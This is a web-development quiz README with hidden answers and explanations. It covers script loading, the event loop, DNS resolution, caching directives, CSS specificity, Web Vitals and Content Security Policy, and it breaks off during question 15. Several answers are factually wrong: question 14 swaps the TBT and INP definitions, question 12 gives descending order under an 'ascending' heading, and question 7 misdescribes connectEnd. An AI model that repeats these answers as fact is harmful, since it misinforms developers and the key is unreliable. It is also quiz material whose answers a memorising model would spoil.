<div align="center">
  <h1>Advanced Web Dev Quiz</h1>
</div>

---
This **Advanced Web Dev Quiz** covers a wide range of the things web devs get to deal with on a daily basis. The goal is to (re)introduce you to certain concepts that you may have forgotten over the years or simply don't get exposed to that often 🙂

Have fun, and hopefully you'll learn something new today! Good luck! 💪

| ⚠️ To see the visualized explanations for each question, **please watch the [FrontendMasters course](https://frontendmasters.com/courses/web-dev-quiz/)! 🙏** |

---

## Overview

- Question 1: [`async` and `defer` execution order](#1-put-the-scripts-in-the-right-order-of-execution)
- Question 2: [Rendering Pipeline and Compositing](#2-which-statements-are-true)
- Question 3: [Resolving Domain Requests](#3-fill-in-the-gaps)
- Question 4: [Call Stack & Event Loop](#4-what-gets-logged)
- Question 5: [Resource Hints](#5-match-the-resource-hints-with-their-definitions)
- Quesiton 6: [Object Reference & Destructuring](#6-whats-the-output)
- Question 7: [`PerformanceNavigationTiming`](#7-put-the-performancenavigationtimings-in-the-right-order)
- Question 8: [Cache Directives](#8-match-the-caching-directives-to-their-definitions)
- Question 9: [Garbage Collection](#9-what-statements-are-true-about-this-code-block)
- Question 10: [Animation Cost](10-when-animating-the-following-properties-which-have-the-correctly-listed-rendering-costs)
- Question 11: [Event Propagation](#11-what-gets-logged-when-clicking-button)
- Question 12: [CSS Specificity](#12-order-the-css-selectors-by-ascending-specificity)
- Question 13: [`WeakMap`](#13-what-statements-are-true)
- Question 14: [Web Vitals](#14-match-the-web-vitals-to-the-correct-descriptions)
- Question 15: [Content Security Policy](#15-which-resources-will-be-allowed-with-the-following-csp-header)
- Question 16: [Referrer Policies](#16-which-statements-are-true)
- Question 17: [Generators](#17-when-does-in-log-my-input-get-logged)
- Question 18: [Promise Methods](#18-connect-the-promise-methods-to-the-right-output)
- Question 19: [Back-Forward Cache](#19-which-of-the-following-values-will-always-make-your-page-ineligible-for-bfcache)
- Question 20: [XSS, MITM, CSRF, Clickjacking](#20-connect-the-terms-with-their-definitions)
- Question 21: [Font Strategies](#21-connect-the-font-strategies-to-their-definition)
- Question 22: [Cookies](#22-what-statements-are-true-about-the-following-cookie-header)
- Question 23: [CSS Pseudo Selectors](#23-which-of-the-css-pseudoselectors-can-we-use-to-only-target-the-first-list-item-lioneli)
- Question 24: [`Strict-Transport-Security`](#24-what-is-true-about-the-following-header)
- Question 25: [Render Layers](#25-which-of-the-following-properties-causes-the-element-to-be-promoted-to-its-own-renderlayer)
- Question 26: [Image Formats](#26-match-the-image-formats-to-the--descriptions)
- Question 27: [CORS](#27-what-is-true-about-the-following-cors-config)
- Question 28: [Event Loop](#28-what-gets-logged)
- Question 29: [HTTP/1, HTTP/2, HTTP/3](#29-what-statements-are-correct)
- Question 30: [`this` keyword](#30-what-gets-logged)

---

## All Questions

### 1. Put the scripts in the right order of execution

- A. `<script async src="async1.js" />` (loads in **300ms**)
- B. `<script defer src="defer1.js" />` (loads in **200ms**)
- C. `<script defer src="defer2.js" />` (loads in **300ms**)
- D. `<script async src="async2.js" />` (loads in **50ms**)
- E. `<script async defer src="asyncdefer1.js" />` (loads in **60ms**)

<details>
<summary><b>Answer</b></summary>
 <br />
 The order of execution depends on whether the scripts are loaded using the "async" or "defer" attribute. Here is the correct order of execution:

- D. `<script async src="async2.js" />` (loads in 50ms)
- E. `<script async defer src="asyncdefer1.js" />` (loads in 60ms)
- A. `<script async src="async1.js" />` (loads in 300ms)
- B. `<script defer src="defer1.js" />` (loads in 200ms)
- C. `<script defer src="defer2.js" />` (loads in 300ms)

Explanation:

- D. `<script async src="async2.js" />` (loads in 50ms)
  - This script has the "async" attribute, so it will be loaded asynchronously(HTML parser will continue parsing HTML) and will execute as soon as it's downloaded. It loads in 50ms.

- E. `<script async defer src="asyncdefer1.js" />` (loads in 60ms)
  - This script has both "async" and "defer" attributes. It will be loaded asynchronously and will execute in the order it appears in the HTML. It loads in 60ms, which is faster than the deferred scripts.

- A. `<script async src="async1.js" />` (loads in 300ms)
  - This script has the "async" attribute, so it will be loaded asynchronously and will execute as soon as it's downloaded. It loads in 300ms.

- B. `<script defer src="defer1.js" />` (loads in 200ms)
  - This script has the "defer" attribute, meaning it will be loaded asynchronously but will wait for the HTML parsing to complete before executing. It loads in 200ms.

- B. `<script defer src="defer2.js" />` (loads in 300ms)
  - Similar to the previous script, it has the "defer" attribute. It loads in 300ms.

Putting it all together, the correct order of execution is "D -> E -> A -> B -> C" based on the loading times and the attributes associated with each script.
</details>

---

### 2. Which statements are true?

- A. The render tree contains all elements from the DOM and CSSOM combined
- B. Compositing is the process of separating layers based on z-index, which are then combined to form the final image displayed on the screen
- C. The layout process assigns colors and images to the visual elements in the render tree
- D. The composting process happens on the compositor thread
- E. Elements that aren't visible on the page, for example `display: hidden`, aren't part of the DOM tree

<details>
<summary><b>Answer</b></summary>
 <br />

- D. The compositing process happens on the compositor thread.

Explanation:

- A. The render tree contains only the visible elements from the **DOM** and **CSSOM** combined. It does not include hidden or non-visible elements.

- B. Compositing is the process of combining layers, taking into account properties like z-index to determine the stacking order of these layers. It doesn't inherently separate layers based on z-index; instead, it considers the stacking context and order when combining them to form the final image displayed on the screen.

- C. The layout process involves determining the position and size of each element. Assigning colors and images to visual elements is part of the **painting process**.

- D. Compositing typically happens on a separate thread called the compositor thread to improve performance.

- E. Elements with `display: none` or similar properties are not part of the **render tree** and, consequently, are not visible on the page. But they are part of the **DOM tree**.

</details>

---

### 3. Fill in the gaps

```
- Browser sends request to [A]
- [A] queries [B]
- [B] responds with [C] IP address
- [A] queries [C]
- [C] responds with [D] IP address
- [A] queries [D]
- [D] responds with website's [E]
```

1. Recursive DNS Resolver
2. Root Name Server
3. IP Address
4. Top Level Domain Name Server
5. Authoritative Name Server

<details>
<summary><b>Answer</b></summary>
 <br />

```
- Browser sends request to [1] Recursive DNS Resolver
- [1] Recursive DNS resolver queries [2] Root Name Server
- [2] Root Name Server responds with [4] Top Level Domain Name Server IP address
- [1] Recursive DNS Resolver queries [4] Top Level Domain Name Server
- [4] Top Level Domain Name Server responds with [5] Authoritative Name Server IP address
- [1] Recursive DNS Resolver queries [5] Authoritative Name Server
- [5] Authoritative Name Server responds with website's [3] IP Address
```

Explanation:

1. **Browser sends request to [1] Recursive DNS Resolver:**
   - When you type a domain name (e.g., www.example.com) into your browser, the browser sends a DNS resolution request to a Recursive DNS Resolver.

2. **[1] Recursive DNS resolver queries [2] Root Name Server:**
   - The Recursive DNS Resolver queries the Root Name Server to obtain information about the Top-Level Domain (TLD) Name Server responsible for the domain.

3. **[2] Root Name Server responds with [4] Top Level Domain Name Server IP address:**
   - The Root Name Server responds with the IP address of the Top-Level Domain (TLD) Name Server responsible for the specific domain.

4. **[1] Recursive DNS Resolver queries [4] Top Level Domain Name Server:**
   - The Recursive DNS Resolver then queries the Top-Level Domain (TLD) Name Server to get information about the Authoritative Name Server responsible for the domain.

5. **[4] Top Level Domain Name Server responds with [5] Authoritative Name Server IP address:**
   - The Top-Level Domain (TLD) Name Server responds with the IP address of the Authoritative Name Server that has the specific domain's DNS records.

6. **[1] Recursive DNS Resolver queries [5] Authoritative Name Server:**
   - The Recursive DNS Resolver queries the Authoritative Name Server for the IP address associated with the domain.

7. **[5] Authoritative Name Server responds with website's [3] IP Address:**
   - Finally, the Authoritative Name Server responds with the IP address of the requested domain, allowing the Recursive DNS Resolver to provide this information to the browser.

In summary, the Recursive DNS Resolver iteratively queries the necessary DNS servers, starting from the Root Name Server, then the Top-Level Domain (TLD) Name Server, and finally the Authoritative Name Server, until it obtains the IP address associated with the domain. This process allows the browser to connect to the correct server and retrieve the web content for the specified domain.

</details>

---

### 4. What gets logged?

```js
setTimeout(() => console.log(1));
Promise.resolve().then(() => console.log(2));
Promise.resolve().then(() => setTimeout(() => console.log(3)));
new Promise(() => console.log(4));
setTimeout(() => console.log(5));
```

- A. `1` `2` `3` `4` `5`
- B. `1` `5` `2` `4` `3`
- C. `3` `2` `4` `1` `5`
- D. `4` `2` `1` `5` `3`
- E. `2` `4` `3` `1` `5`

<details>
<summary><b>Answer</b></summary>
 <br />

- **D. `4` `2` `1` `5` `3`**

Explanation:



1. `setTimeout(() => console.log(1));`: This is scheduled to run in a future tick of the event loop. It goes into the callback queue.

2. `Promise.resolve().then(() => console.log(2));`: This promise is resolved immediately, and `console.log(2)` is scheduled as a microtask.

3. `Promise.resolve().then(() => setTimeout(() => console.log(3)));`: This is resolved immediately, and the inner `setTimeout` is scheduled for a future tick. Both are put into the microtask queue.

4. `new Promise(() => console.log(4));`: The executor function inside the promise is executed synchronously. Therefore, it immediately logs `4`.

5. `setTimeout(() => console.log(5));`: This is scheduled to run in a future tick. It goes into the callback queue.

Now, let's look at the order of execution:

1. `console.log(4)` is executed immediately because the promise executor runs synchronously.

2. **Microtasks:**
   1. `console.log(2)` is executed (from the first round of the event loop).
   2. `setTimeout(()=>console.log(3))` is scheduled as a microtask, and its callback is queued for a future tick as macrotask.

3. **Callback Queue (Task Queue/ Macrotask queue):**
   1. `console.log(1)` (from the second round of the event loop, scheduled by setTimeout).
   2. `console.log(5)` (from the third round of the event loop, scheduled by setTimeout).
   3. `console.log(3)` (the callback from the second microtask, invoked by the resolved promise).

</details>

---

### 5. Match the resource hints with their definitions

- A. `dns-prefetch`
- B. `preconnect`
- C. `prefetch`
- D. `preload`

1. prioritizes fetching of critical resources needed for the current navigation
2. performs domain name resolution in the background
3. proactively performs DNS resolution and TCP/TLS handshake
4. requests non-critical resources in the background

<details>
<summary><b>Answer</b></summary>
 <br />

- A. `dns-prefetch`: **2.** performs domain name resolution in the background
- B. `preconnect`: **3.** proactively performs DNS resolution and TCP/TLS handshake
- C. `prefetch`: **4.** requests non-critical resources in the background
- D. `preload`: **1.** prioritizes fetching of critical resources needed for the current navigation

Explanation:



- A. `dns-prefetch`: This resource hint is used to perform domain name resolution in the background. It helps in resolving the DNS of a domain before the user clicks on a link, reducing the latency when the link is clicked.

- B. `preconnect`: This resource hint is used to proactively perform DNS resolution, TCP handshake, and TLS negotiation with a remote server. It sets up early connections to important third-party origins, helping to reduce the latency when actual requests are made.

- C. `prefetch`: This resource hint is used to request non-critical resources in the background. It fetches and caches resources that might be needed for future navigation, improving the overall performance by preloading resources that are likely to be used.

- D. `preload`: This resource hint is used to prioritize the fetching of critical resources needed for the current navigation. It allows you to declare resources that should be fetched and cached as a high priority, ensuring that essential assets are available quickly when needed.

In summary:

- `dns-prefetch`: Performs domain name resolution in the background.
- `preconnect`: Proactively performs DNS resolution, TCP handshake, and TLS negotiation.
- `prefetch`: Requests non-critical resources in the background.
- `preload`: Prioritizes fetching of critical resources needed for the current navigation.

</details>

---

### 6. What's the output?

```js
const member = { 
  name: "Jane", 
  address: { street: "101 Main St" }
};
const member2 = { ...member };
member.address.street = "102 Main St";
member.name = "Sarah";

console.log(member2);
```

- A. `{ name: "Jane", address: { street: "101 Main St" }}`
- B. `{ name: "Jane", address: { street: "102 Main St" }}`
- C. `{ name: "Sarah", address: { street: "101 Main St" }}`
- D. `{ name: "Sarah", address: { street: "102 Main St" }}`

<details>
<summary><b>Answer</b></summary>
 <br />

**B. `{ name: "Jane", address: { street: "102 Main St" }}`**

Explanation:



1. `member` has a nested object `address`.
2. `member2` is created using the spread operator, performing a shallow copy.
3. Changing `member.address.street` also affects `member2.address.street` because it's a shallow copy.
4. Changing `member.name` doesn't affect `member2.name` since it's a primitive property, and the spread operator creates a new reference for primitive types.

</details>

---

### 7. Put the `PerformanceNavigationTimings` in the right order

- A. `loadEventStart`
- B. `domComplete`
- C. `domContentLoadedEventStart`
- D. `fetchStart`
- E. `connectEnd`
- F. `domInteractive`

<details>
<summary><b>Answer</b></summary>
 <br />

- D. `fetchStart`
- E. `connectEnd`
- F. `domInteractive`
- C. `domContentLoadedEventStart`
- B. `domComplete`
- A. `loadEventStart`

Explanation:

1. **D. `fetchStart`**: This marks the beginning of the navigation process when the browser starts fetching the resource. It represents the start time of the navigation.

2. **E. `connectEnd`**: This is the time when the last byte of the response is received or the connection is closed. It indicates the end of the connection phase in the navigation.

3. **F. `domInteractive`**: This marks the point in time when the HTML document has been fully loaded and parsed, and the browser begins loading sub-resources like scripts and stylesheets. It is an important milestone in the loading process.

4. **C. `domContentLoadedEventStart`**: This is the time when the DOM content is fully loaded and parsed, and the DOMContentLoaded event begins. This event is fired when the initial HTML document has been completely loaded and parsed without waiting for stylesheets, images, and subframes to finish loading.

5. **B. `domComplete`**: This represents the time when the HTML document has been fully loaded and parsed, and all sub-resources like images and stylesheets have finished loading. It marks the point when the `load` event can be fired.

6. **A. `loadEventStart`**: This is the time when the load event for the page is fired. It signifies that all resources on the page, including images and scripts, have been loaded.

</details>

---

### 8. Match the caching directives to their definitions

- A. `no-cache`
- B. `must-revalidate`
- C. `no-store`
- D. `private`
- E. `stale-while-revalidate`

1. validates a stale response with the origin server before using it
2. serves stale content while validating the cached response with the origin server
3. doesn't cache any part of the request or response
4. validates a cached response with the origin server before using it, even if it is still fresh
5. prevents caching on shared caches

<details>
<summary><b>Answer</b></summary>
 <br />

- A. `no-cache`: **4.** validates a cached response with the origin server before using it, even if it is still fresh
- B. `must-revalidate`: **1.** validates a stale response with the origin server before using it
- C. `no-store`: **3.** doesn't cache any part of the request or response
- D. `private`: **5.** prevents caching on shared caches
- E. `stale-while-revalidate`: **2.** serves stale content while validating the cached response with the origin server

Explanation:



- A. `no-cache`: This directive indicates that a cached response must be validated with the origin server before it is used, even if the cached response is still considered fresh. It doesn't mean that the resource won't be cached; instead, it requires validation before reuse.

- B. `must-revalidate`: This directive requires that a cached response, even if stale, must be revalidated with the origin server before it is used. If the validation fails, the cache must fetch the resource from the server.

- C. `no-store`: This directive instructs caches (both private and shared) not to store any part of the request or response. The content must be obtained from the origin server for every request.

- D. `private`: This directive indicates that the response is intended for a single user and should not be stored in shared caches. It is specific to a particular user and is typically used for sensitive information.

- E. `stale-while-revalidate`: This is an extension to the Cache-Control header. It allows the serving of stale content to the user while asynchronously revalidating the cache in the background. It helps improve performance by not making the user wait for a new response.

</details>

---

### 9. What statements are true about this code block?  

```js
function addMember(name) {
  return { name, createdAt: Date.now() }
}

let obj1 = addMember("John");
let obj2 = addMember("Sarah");

obj1.friend = obj2;
obj2.friend = obj1;

obj1 = null;
obj2 = null;  
```

- A. `obj1` and `obj2` cannot be garbage collected, leading to a memory leak
- B. `obj1` and `obj2` will be garbage collected immediately after setting them to `null`
- C. `obj1` and `obj2` will only be garbage collected after closing the browser tab
- D. `obj1` and `obj2` can be garbage collected during the next garbage collection cycle

<details>
<summary><b>Answer</b></summary>
<br />

**D. `obj1` and `obj2` can be garbage collected during the next garbage collection cycle**

Explanation:

In JavaScript, when an object is no longer reachable or referenced, it becomes eligible for garbage collection. In this code block:

1. `obj1` and `obj2` are initially assigned objects created by the `addMember` function.
2. Both `obj1` and `obj2` have a circular reference, as `obj1.friend` points to `obj2` and `obj2.friend` points to `obj1`.
3. When `obj1` and `obj2` are set to `null`, there are no direct references to the objects they were pointing to.
4. However, since there is a circular reference between the objects themselves, the garbage collector needs to identify and break the circular reference to determine that the objects are unreachable.

JavaScript engines use automatic garbage collection to identify and collect unreachable objects. The exact timing of garbage collection is implementation-specific and depends on the JavaScript engine. Generally, it occurs during the next garbage collection cycle.

So, `obj1` and `obj2` can be garbage collected during the next garbage collection cycle, breaking the circular reference and freeing up the memory.
</details>

---

### 10. When animating the following properties, which have the correctly listed rendering costs?

- A. `width`: Layout, Paint, Composite
- B. `opacity`: Paint, Composite
- C. `background-image`: Composite
- D. `left`: Layout, Paint, Composite
- E. `transform`: Paint, Composite

<details>
<summary><b>Answer</b></summary>
<br />

- A. `width`: Layout, Paint, Composite
- D. `left`: Layout, Paint, Composite

Explanation:

- A. `width`: **Layout, Paint, Composite**
  - **Layout (Reflow):** Changing the width of an element affects its box model, and a reflow is triggered to recalculate the layout.
  - **Paint (Repaint):** The change in width may require repainting the affected area of the element.
  - **Composite:** After layout and paint, the rendered layers are composited to display the final result.

- B. `opacity`: **Composite**
  - **Composite:** Changing the opacity of an element often doesn't require a repaint, but the compositor can directly blend the element with the underlying layers.

- C. `background-image`: **Paint, Composite**
  - **Paint (Repaint):** If a change in the background image affects the appearance of the element, it may require repainting.
  - **Composite:** After painting, the rendered layers are composited to display the final result.

- D. `left`: **Layout, Paint, Composite**
  - **Layout (Reflow):** Adjusting the left position of an element affects its positioning in the layout, triggering a reflow.
  - **Paint (Repaint):** Repainting may be necessary if the left position change affects the appearance of the element.
  - **Composite:** After layout and paint, the rendered layers are composited to display the final result.

- E. `transform`: **Composite**
  - **Composite:** Transformations like scaling, rotation, etc., are often handled directly by the compositor without the need for a repaint.

In summary:

- A. `width`: **Layout, Paint, Composite**
- B. `opacity`: **Composite**
- C. `background-image`: **Paint, Composite**
- D. `left`: **Layout, Paint, Composite**
- E. `transform`: **Composite**

</details>

---

### 11. What gets logged when clicking button?

```js
<div class="outer">
  <div class="inner">
    <button>Click me!</button>
  </div>
</div>
```

```js
outer.addEventListener("click", () => log("A"), true);
outer.addEventListener("click", () => log("B"));
inner.addEventListener("click", () => log("C"), true);
inner.addEventListener("click", (e) => {
   log("D");
   e.stopPropagation();
   log("E");
});
button.addEventListener("click", () => log("F"));
button.addEventListener("click", () => log("G"), true);
```

- A. `A` `B` `C` `D` `E` `F` `G`
- B. `A` `C` `G` `F` `D`
- C. `B` `D` `E` `F` `G` `C` `A`
- D. `A` `C` `G` `F`
- E. `A` `C` `G` `F` `D` `E`

<details>
<summary><b>Answer</b></summary>
<br />

- E. `A` `C` `G` `F` `D` `E`

Explanation:


- A. `A` is logged when the click event reaches the outer element during the capturing phase (`true`).
- C. `C` is logged when the click event reaches the inner element during the capturing phase (`true`).
- G. `G` is logged when the click event reaches the button during the capturing phase (`true`).
- F. `F` is logged when the click event reaches the button during the bubbling phase (`false` or omitted, defaulting to bubbling).
- D. `D` is logged inside the click event handler for the `inner` element.
- E. `E` is logged after `D` because `e.stopPropagation()` stops further propagation.

</details>

---

### 12. Order the CSS selectors by ascending specificity

- A. `div h1.large-text::before`
- B. `div h1:first-child`
- C. `h1:not(.small-text)`
- D. `.large-text:nth-child(1)`
- E. `h1.large-text[id="title"]`
- F. `h1.large-text#title`

<details>
<summary><b>Answer</b></summary>
<br />

- **F -> E -> D -> A -> B -> C**

Explanation:


1. F. `h1.large-text#title` (Specificity: 0-1-1-1)
2. E. `h1.large-text[id="title"]` (Specificity: 0-0-2-1)
3. D. `.large-text:nth-child(1)` (Specificity: 0-0-2-0)
4. A. `div h1.large-text::before` (Specificity: 0-0-1-3)
5. B. `div h1:first-child` (Specificity: 0-0-1-2)
6. C. `h1:not(.small-text)` (Specificity: 0-0-1-1)

</details>

---

### 13. What statements are true?

```js
const userTokenMap = new WeakMap();

let user = { 
  name: "Jane Doe", 
  age: 24 
};

userTokenMap.set(user, "secret_token");
```

- A. `userTokenMap` implements the iterator protocol
- B. When setting `user` to `null`, `userTokenMap` returns `0`
- C. If the user object is set to `null`, its `userTokenMap`  entry can be be garbage collected.
- D. `[...userTokenMap]` returns an array of `userTokenMap` entries

<details>
<summary><b>Answer</b></summary>
<br />

- C. If the user object is set to `null`, its `userTokenMap`  entry can be be garbage collected.

Explanation:

- A. `userTokenMap` implements the iterator protocol: This statement is incorrect. `WeakMap` does not implement the iterator protocol.

- B. When setting `user` to `null`, `userTokenMap` returns `0`: This statement is incorrect. Setting an object to `null` does not return a value from `WeakMap`.

- C. If the `user` object is set to `null`, its `userTokenMap` entry can be garbage collected: This statement is correct. If there are no other references to the `user` object, both the key-value pair in `userTokenMap` and the `user` object itself can be garbage collected.

- D. `[...userTokenMap]` returns an array of `userTokenMap` entries: This statement is incorrect. `WeakMap` is not iterable, so spreading it directly will result in an error.

**Note:** For `Map`, it won't be garbage collected, because `Map` will have strong reference to the `user` object.

</details>

---

### 14. Match the Web Vitals to the correct descriptions

- A. TTFB
- B. FID
- C. TTI
- D. TBT
- E. CLS
- F. INP

1. the time it takes for a webpage to respond to a user's first interaction.
2. the time that the main thread is blocked from responding to user input.
3. the average time it takes for a webpage to update its visuals after a user interacts with it. 
4. the time it takes for the server to respond to a request and start sending data back to the client
5. the time it takes for a webpage to be fully loaded and responsive to user input.
6. the stability of a webpage's layout, or the unexpected layout shifts that occur on a webpage as it loads.

<details>
<summary><b>Answer</b></summary>
<br />

- A. TTFB: **4.** the time it takes for the server to respond to a request and start sending data back to the client
- B. FID: **1.** the time it takes for a webpage to respond to a user's first interaction.
- C. TTI: **5.** the time it takes for a webpage to be fully loaded and responsive to user input.
- D. TBT: **3.** the average time it takes for a webpage to update its visuals after a user interacts with it.
- E. CLS: **6.** the stability of a webpage's layout, or the unexpected layout shifts that occur on a webpage as it loads.
- F. INP: **2.** the time that the main thread is blocked from responding to user input.

Explanation:



- A. TTFB (Time To First Byte): **4.** the time it takes for the server to respond to a request and start sending data back to the client. TTFB is a crucial metric for measuring server responsiveness.

- B. FID (First Input Delay): **1.** the time it takes for a webpage to respond to a user's first interaction. FID measures the delay between a user's first interaction (clicking a button, selecting a menu item, etc.) and the browser's response to that interaction.

- C. TTI (Time To Interactive): **5.** the time it takes for a webpage to be fully loaded and responsive to user input. TTI measures when the main content is loaded and when the page becomes interactive for users.

- D. TBT (Total Blocking Time): **3.** the average time it takes for a webpage to update its visuals after a user interacts with it. TBT is a measure of the time during which the main thread is blocked, preventing the browser from responding to user input.

- E. CLS (Cumulative Layout Shift): **6.** the stability of a webpage's layout or the unexpected layout shifts that occur on a webpage as it loads. CLS measures how much the page layout visually shifts during the loading process. `CLS = Distance Fraction x Impact Fraction`

- F. INP (Input Timing): **2.** the time that the main thread is blocked from responding to user input. INP measures the time when the main thread is busy with tasks that can block user input.

</details>

---

### 15. Which resources will be allowed with the following CSP header?

```js
default-src "none"; script-src "self"; img-src "self" example.com; style-src fonts.googleapis.com; font-src fonts.gstatic.com;
```

- A. `<script src="/js/app.js"></script>`
- B. `fetch("https://api.website.com/data")`
- C. `@font-face { url("fonts/my-font.woff") }`
- D. ``
- E. `<style>body { font-family: 'Roboto' }</style>`
- F. `<iframe src="https://embed.example.com"></iframe>`
- G. `<link rel="stylesheet" href="https://fonts.googleapis.com..>`
- H. `<video src="https://videos.example.com/..."></video>`

<details>
<summary><b>Answer</b></summary>
<br />

- A. `<script src="/js/app.js"></script>`
- G. `<link rel="stylesheet" href="https://fonts.googleapis.com..>`

Explanation:



- A. `<script src="/js/app.js"></script>`: Allowed (`script-src "self"` allows scripts from the same origin).
- B. `fetch("https://api.website.com/data")`: Not allowed (`default-src "none"` doesn't allow any resources by default).
- C. `@font-face { url("fonts/my-font.woff") }`: Not allowed (`font-src fonts.gstatic.com` only allows fonts from `fonts.gstatic.com`).
- D. ``: Not allowed (`img-src "self" example.com` allows images from the same origin or `example.com`).
- E. `<style>body { font-family: 'Roboto' }</style>`: Not allowed (`style-src fonts.googleapis.com` allows styles from `fonts.googleapis.com`).
- F. `<iframe src="https://embed.example.com"></iframe>`: Not allowed (`default-src "none"` doesn't allow any iframes by default).
